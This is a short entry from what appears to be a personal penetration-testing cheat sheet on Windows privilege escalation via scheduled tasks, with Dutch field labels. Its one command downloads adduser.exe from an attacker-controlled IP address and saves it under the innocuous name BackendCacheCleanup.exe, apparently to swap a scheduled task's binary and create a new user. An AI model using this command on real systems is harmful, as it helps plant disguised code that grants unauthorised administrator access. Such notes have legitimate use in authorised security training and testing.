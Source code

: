 # 17. Windows Privilege Esc — Entry 49

## Categorie

Scheduled task

## Commando

```
iwr http://192.168.45.165:8000/adduser.exe -OutFile BackendCacheCleanup.exe
```

## Omschrijving

Download the adduser script

## Voorbeeld

_(empty)_

## Opmerkingen

_(empty)_

